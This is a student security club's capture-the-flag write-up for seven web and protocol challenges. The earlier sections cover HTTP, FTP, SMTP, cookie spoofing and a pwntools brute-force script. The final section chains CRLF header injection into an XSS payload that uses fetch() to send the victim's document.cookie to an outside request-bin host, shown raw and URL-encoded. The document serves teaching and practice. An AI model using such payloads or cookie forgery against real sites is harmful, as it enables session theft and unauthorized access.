





Slides for this workshop can be found on our GitHub [here](https://github.com/umisc/workshops/blob/master/workshop-02-protocols-and-the-web/slides.pdf).

Files for the challenges can also be found [here](https://github.com/umisc/workshops/tree/master/workshop-02-protocols-and-the-web/challenges/)

# Challenge Writeups

- [Basics I (50pts)](#basics-i)
- [Basics II (50pts)](#basics-ii)
- [Basics III (50pts)](#basics-iii)
- [Hidden FTP (50pts)](#hidden-ftp)
- [TCP Phonebook (100pts)](#tcp-phonebook)
- [Misccat's Flag Delivery Service (125pts)](#misccats-flag-delivery-service)
- [HTTP Server 3000 (250pts)](#http-server-3000)

# Basics I (50pts) <a name="basics-i"></a>

> Send a POST request to http://ws-chall.umisc.info:2005/post_to_me with a JSON body including the fields `"postcode"` and `"flag"`. `"postcode"` can be anything, and `"flag"` should be a true value.
>
> Author: Joseph

## Solution

Using [HTTPie](https://httpie.org/):

```
$ http POST ws-chall.umisc.info:2005/post_to_me postcode=1337 flag="yes please"
```

which creates the request for us:

```
POST /post_to_me HTTP/1.1
Accept: application/json, */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 42
Content-Type: application/json
Host: ws-chall.umisc.info:2005
User-Agent: HTTPie/2.0.0

{
    "flag": "yes please",
    "postcode": "1337"
}
```

Response:

```
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 31
Content-Type: text/html; charset=utf-8
Date: Tue, 10 Mar 2020 22:54:12 GMT
ETag: W/"1f-34wkqV7iTtk4CEoC+tQnTelBuXc"
X-Powered-By: Express

MISCCTF{h3r3_1s_a_fl4g_f0r_y0u}
```

---

# Basics II (50pts) <a name="basics-ii"></a>

> You know the drill.
> 
> http://ws-chall.umisc.info:2005/spy_base
> 
> Author: Joseph

## Solution

A simple GET request using [HTTPie](https://httpie.org/) (using `-p hHbB` to print both request and response headers and bodies) shows:

```
$ http -p hHbB ws-chall.umisc.info:2005/spy_base
GET /spy_base HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Host: ws-chall.umisc.info:2005
User-Agent: HTTPie/2.0.0


HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 48
Content-Type: text/html; charset=utf-8
Date: Tue, 10 Mar 2020 22:57:25 GMT
ETag: W/"30-qHuoHb/xPSLNSJO2orJUN9QjvfM"
X-Powered-By: Express

You are "HTTPie/2.0.0", not "Agent Secure 1337"!
```

We see that the server is telling us our `User-Agent` in the response. Changing the `User-Agent` header to `"Agent Secure 1337"` gives the flag:

```
$ http -p hHbB ws-chall.umisc.info:2005/spy_base User-Agent:"Agent Secure 1337"
GET /spy_base HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Host: ws-chall.umisc.info:2005
User-Agent: Agent Secure 1337


HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 43
Content-Type: text/html; charset=utf-8
Date: Tue, 10 Mar 2020 22:58:36 GMT
ETag: W/"2b-Ewe9HC3ad0du+hJEPtswscfJs3A"
X-Powered-By: Express

MISCCTF{au7h3nt1c4t10n_w17h_us3r_4g3n7_b4d}
```

---

# Basics III (50pts) <a name="basics-iii"></a>

> Free flag! (admins only)
> 
> http://ws-chall.umisc.info:2005/flag
>
> Author: Joseph

## Solution

A GET request to the page using [HTTPie](https://httpie.org/) reveals that an `"admin"` cookie is being set with value `0`:

```
$ http -p hHbB ws-chall.umisc.info:2005/flag
GET /flag HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Host: ws-chall.umisc.info:2005
User-Agent: HTTPie/2.0.0


HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 18
Content-Type: text/html; charset=utf-8
Date: Tue, 10 Mar 2020 23:00:56 GMT
ETag: W/"12-PqGrlFX4yzUgFwX1IcXOIUPkcgY"
Set-Cookie: admin=0; Max-Age=1333333; Path=/; Expires=Thu, 26 Mar 2020 09:23:09 GMT
X-Powered-By: Express

You are not admin!
```

Sending the same GET request, except with an `"admin"` cookie set to `1` gives the flag:

```
$ http -p hHbB ws-chall.umisc.info:2005/flag Cookie:admin=1
GET /flag HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Cookie: admin=1
Host: ws-chall.umisc.info:2005
User-Agent: HTTPie/2.0.0


HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 24
Content-Type: text/html; charset=utf-8
Date: Tue, 10 Mar 2020 23:02:27 GMT
ETag: W/"18-nRhz1ntYfuRePJpnNWiV57Dq8jM"
X-Powered-By: Express

MISCCTF{c00k13_1s_yUmMY}
```

---

# Hidden FTP (50pts) <a name="hidden-ftp"></a>

> There is a flag hidden in a file somewhere on this FTP server running on `ws-chall.umisc.info` on port `21`.
>
> Author: Joseph

## Solution

Using the Inetutils FTP client (comes installed with most Linux distributions), we attempt an anonymous login to the FTP server and list the files using `ls -a` to show hidden files:

```
$ ftp ws-chall.umisc.info 21
Connected to ws-chall.umisc.info.
220 MISC Is So Cool
Name (ws-chall.umisc.info:joseph): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    1 ftp      ftp          4096 Mar 08 22:13 .
drwxr-xr-x    1 ftp      ftp          4096 Mar 08 22:13 ..
-rw-r--r--    1 ftp      ftp            27 Mar 08 22:13 .flag
226 Directory send OK.
ftp> get .flag
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .flag (27 bytes).
226 Transfer complete.
27 bytes received in 0.000963 seconds (27.4 kbytes/s)
ftp> 221 Goodbye.

$ cat .flag
MISCCTF{ftp_1s_a_b17_l4m3}
```

---

# TCP Phonebook (100pts) <a name="tcp-phonebook"></a>

> You've been granted exclusive access to this fancy new phonebook service running over TCP! It's not complete yet though; all it returns is the number of matches for your search. But I'm sure that won't stop you from finding some interesting things!
>
> `nc ws-chall.umisc.info 2002`
>
> Author: Joseph

## Solution

With not much information given, we connect to the service using [netcat](https://linux.die.net/man/1/nc):

```
$ nc ws-chall.umisc.info 2002
TCP Phonebook V0.1.0
Quit with -quit-
Available search fields:
first_name
last_name
email
gender
favourite_animal
address
catch_phrase
company

```

Inputting something random results in `"Invalid search field"` being returned and the connection closing:

```
$ nc ws-chall.umisc.info 2002
TCP Phonebook V0.1.0
Quit with -quit-
Available search fields:
first_name
last_name
email
gender
favourite_animal
address
catch_phrase
company
asdf
Invalid search field

```

If we input a valid search field, the server waits for another input which is our search query (here, our inputs are `"favourite_animal"` and `"dog"`):

```
nc ws-chall.umisc.info 2002
TCP Phonebook V0.1.0
Quit with -quit-
Available search fields:
first_name
last_name
email
gender
favourite_animal
address
catch_phrase
company
favourite_animal
dog
Matches: 1

```

So we can search through a specific search field and the service will return how many matches are in the database. Assuming the flag is in one of the fields, we can check each one and see when the search for `"MISCCTF{"` returns a positive match. From there, we can bruteforce each letter of the flag format to eventually recover the full flag.

A scripting programming language like Python or Bash will be very helpful for this challenge. The solution script uses [pwntools](https://github.com/Gallopsled/pwntools), a Python library that helps to make the process of interacting with TCP servers easier (amongst other things).

Solution script:

```python
from pwn import *

# set up the connection
conn = remote('ws-chall.umisc.info', 2002)

# discard the first 3 lines
[conn.recvline() for _ in range(3)]

# find the correct search field
search_fields = conn.recv().splitlines()
sf = b''
for s in search_fields:
    conn.sendline(s)
    conn.sendline(b'MISCCTF{')
    if conn.recvline().decode().split()[1] != '0':
        sf = s
        break

alphabet = '0123456789abcdefghijklmnopqrstuvwxyz{}_ABCDEFGHIJKLMNOPQRSTUVWXYZ'
flag = 'MISCCTF{'

i = 0
while flag[-1] != '}':
    guess = flag + alphabet[i]
    conn.sendline(sf)
    conn.sendline(guess.encode())
    if conn.recvline().decode().split()[1] != '0':
        flag = guess
        print(flag)
        i = 0
    else:
        i += 1
```

which results in the output:

```
[+] Opening connection to ws-chall.umisc.info on port 2002: Done
MISCCTF{w
MISCCTF{wh
MISCCTF{wh4
MISCCTF{wh47
MISCCTF{wh47_
MISCCTF{wh47_d
MISCCTF{wh47_d0
MISCCTF{wh47_d0_
MISCCTF{wh47_d0_w
MISCCTF{wh47_d0_w3
MISCCTF{wh47_d0_w3_
MISCCTF{wh47_d0_w3_h
MISCCTF{wh47_d0_w3_h4
MISCCTF{wh47_d0_w3_h4v
MISCCTF{wh47_d0_w3_h4v3
MISCCTF{wh47_d0_w3_h4v3_
MISCCTF{wh47_d0_w3_h4v3_h
MISCCTF{wh47_d0_w3_h4v3_h3
MISCCTF{wh47_d0_w3_h4v3_h3r
MISCCTF{wh47_d0_w3_h4v3_h3r3
MISCCTF{wh47_d0_w3_h4v3_h3r3_
MISCCTF{wh47_d0_w3_h4v3_h3r3_0
MISCCTF{wh47_d0_w3_h4v3_h3r3_0h
MISCCTF{wh47_d0_w3_h4v3_h3r3_0h_
MISCCTF{wh47_d0_w3_h4v3_h3r3_0h_a
MISCCTF{wh47_d0_w3_h4v3_h3r3_0h_a_
MISCCTF{wh47_d0_w3_h4v3_h3r3_0h_a_f
MISCCTF{wh47_d0_w3_h4v3_h3r3_0h_a_fl
MISCCTF{wh47_d0_w3_h4v3_h3r3_0h_a_fl4
MISCCTF{wh47_d0_w3_h4v3_h3r3_0h_a_fl4g
MISCCTF{wh47_d0_w3_h4v3_h3r3_0h_a_fl4g}
```

---

# Misccat's Flag Delivery Service (125pts) <a name="misccats-flag-delivery-service"></a>

> Misccat is delivering flags to people with good manners! Simply send an email to Misccat (`misccat@mail.umisc.info`) and include a SMTP header named `"flag"` with value `"yes please!"` via the SMTP server running on `ws-chall.umisc.info` on port `2525`.
> Make sure you put Misccat's email in the `"To"` header and include your email in the `"From"` header so Misccat knows where to send the flag to!
> 
> Author: Joseph

## Solution

Using [netcat](https://linux.die.net/man/1/nc) to connect to the SMTP server and following the standard SMTP procedure to send an email (with `-C` to send `CRLF` line-endings):

```
$ nc -C ws-chall.umisc.info 2525
220 f9f2f47a8067 ESMTP
HELO umisc.info
250 f9f2f47a8067 Nice to meet you, *******
MAIL FROM:<joseph@umisc.info>
250 Accepted
RCPT TO:<misccat@mail.umisc.info>
250 Accepted
DATA
354 End data with <CR><LF>.<CR><LF>
To:<misccat@mail.umisc.info>
From:<joseph@umisc.info>
flag: yes please!

give me the flag!
.
250 OK: message queued
```

After a few seconds, we get an email from Misccat containing the flag!



---

# HTTP Server 3000 (250pts) <a name="http-server-3000"></a>

> I just listened to a very good presentation on web stuff so I've decided to build a cool website and implement my very own HTTP server called "HTTP Server 3000"! It's pretty janky and the whole url encoding/decoding business still confuses me, but I'm sure it'll be fine.
> 
> http://ws-chall.umisc.info:2001
> 
> Author: Joseph

## Solution

We begin by taking a look at the main pages of the website. Each screenshot is accompanied by an equivalent request using [HTTPie](httpie.org/) so we can see what headers are being sent.

#### Index page

The home page contains a single input field and a button, asking us for a username to log in with:



```
GET / HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Host: ws-chall.umisc.info:2001
User-Agent: HTTPie/2.0.0


HTTP/1.1 200 OK
Connection: closed
Server: HTTP Server 3000

<!DOCTYPE html><html><head><title>Cool Website</title></head><body>Login with your username: <form action="/login" method="get"><input type="text" name="username"><input type="submit" value="submit"></form></body></html>
```

#### Logged in page

When we enter some input, we are given a page telling us that we've logged in, which includes a link to the dashboard:



```
GET /login?username=hello HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Host: ws-chall.umisc.info:2001
User-Agent: HTTPie/2.0.0


HTTP/1.1 200 OK
Connection: closed
Content-Type: text/html
Server: HTTP Server 3000
Set-Cookie: username=hello; path=/;

<html>Thanks for logging in! Click <a href="/dashboard">here</a> to go to your dashboard...</html>
```

#### Dashboard page

Clicking the link to go to the dashboard, we see a big font that says `"Hello, <username>!"` and an input form to share a link with others on the website (strong indicator that this is an XSS challenge):



```
GET /dashboard HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Cookie: username=hello
Host: ws-chall.umisc.info:2001
User-Agent: HTTPie/2.0.0


HTTP/1.1 200 OK
Connection: closed
Server: HTTP Server 3000
Set-Cookie: secret=0; path=/;

<!DOCTYPE html><html><head><title>Cool Website - Dashboard</title></head><body><h2>Hello, <span id="username"></span>!</h2></br></br>Share a link with everyone on this site!<form action="/share" method="get"><input type="text" name="link"><input type="submit" value="submit"></form><script>document.getElementById('username').innerHTML = document.cookie.split(';').find(x => x.includes('username=')).split('username=')[1]</script></body></html>
```

We see that when we visit the dashboard page, a cookie named `"secret"` is set. This essentially confirms that the challenge is XSS based. Submitting a link that points to a server that we control (or a [request bin](requestbin.com/)) into the share link field will confirm that this feature in the website causes someone (presumably a browser who has the flag in their `"secret"` cookie) to visit the link.

Our goal then becomes to find an XSS vulnerability somewhere in the website. Something interesting to note is that there are no POST requests, and in fact, other than the share link feature, the only other place where the website takes user input is when we log in, so we direct our attention there.

If we take a look at the request again, we notice that a `"username"` cookie is being set whose value is equal to our input. Whenever we see the server using user supplied input, it is always a good idea to test if it is properly sanitised. If we try supplying `"hello%20a"` as our username in the path, we see that the response `Set-Cookie` header sets the `"username"` cookie to `"hello a"`:

```
$ nc -C ws-chall.umisc.info 2001
GET /login?username=hello%20a HTTP/1.1

HTTP/1.1 200 OK
Content-Type: text/html
Set-Cookie: username=hello a; path=/;
Server: HTTP Server 3000
Connection: closed

<html>Thanks for logging in! Click <a href="/dashboard">here</a> to go to your dashboard...</html>
```

This tell us that the server is taking our username input, [URL decoding](https://en.wikipedia.org/wiki/Percent-encoding) it, and setting that as the cookie. What would happen if we tried to send the URL encodings of `\r\n` (CRLF)?

```
$ nc -C ws-chall.umisc.info 2001
GET /login?username=hello%0A%0D HTTP/1.1

HTTP/1.1 200 OK
Content-Type: text/html
Set-Cookie: username=hello
; path=/;
Server: HTTP Server 3000
Connection: closed

<html>Thanks for logging in! Click <a href="/dashboard">here</a> to go to your dashboard...</html>
```

We see that the `"; path=/;"` part of the `Set-Cookie` header has been moved to the next line! Now, if we send another CLRF, a normal browser would interpret the remainder of the response as the actual response body. This gives us the freedom to create whatever response we want. Since this is all done through a GET request via the url query parameter, we can submit this as a link to share. All that's left is to create an XSS payload to grab the visitor's cookie.

The following payload will work:

```
\r\n\r\n<script>fetch('https://enp7ii7txpbn.x.pipedream.net/'+document.cookie)</script>
```

URL encoded:

```
%0D%0A%0D%0A%3Cscript%3Efetch('https%3A%2F%2Fenp7ii7txpbn.x.pipedream.net%2F'%2Bdocument.cookie)%3C%2Fscript%3E
```

Since the link sharing feature will URL decode our input before visiting it, we'll have to send our link URL encoded. Furthermore, since the login page will URL decode the username query parameter when setting the cookie, in order for our payload to work on the visitor's browser, we must URL encode the username section again.

If we submit the link through the form on a browser we'd only need to URL encode it ourselves once, since the browser will automatically URL encode it when submitting. However, if we use a tool like [netcat](https://linux.die.net/man/1/nc), we'd have to do both URL encodings ourself.

The link sharing path is `/share?link=`, so to get the visitor to visit our website and steal their cookie, we would send a GET request to the path:

```
/share?link=http%3A%2F%2Fws-chall.umisc.info%3A2001%2Flogin%3Fusername%3D%250D%250A%250D%250A%253Cscript%253Efetch('https%253A%252F%252Fenp7ii7txpbn.x.pipedream.net%252F'%252Bdocument.cookie)%253C%252Fscript%253E
```

Using netcat:

```
$ nc -C ws-chall.umisc.info 2001
GET /share?link=http%3A%2F%2Fws-chall.umisc.info%3A2001%2Flogin%3Fusername%3D%250D%250A%250D%250A%253Cscript%253Efetch('https%253A%252F%252Fenp7ii7txpbn.x.pipedream.net%252F'%252Bdocument.cookie)%253C%252Fscript%253E HTTP/1.1

HTTP/1.1 200 OK
Server: HTTP Server 3000
Connection: closed

Hopefully people like your link!
```

Shortly after, we see a request to our request bin with the flag:



Flag: `MISCCTF{http_server_3000_1s_v3ry_b4d}`
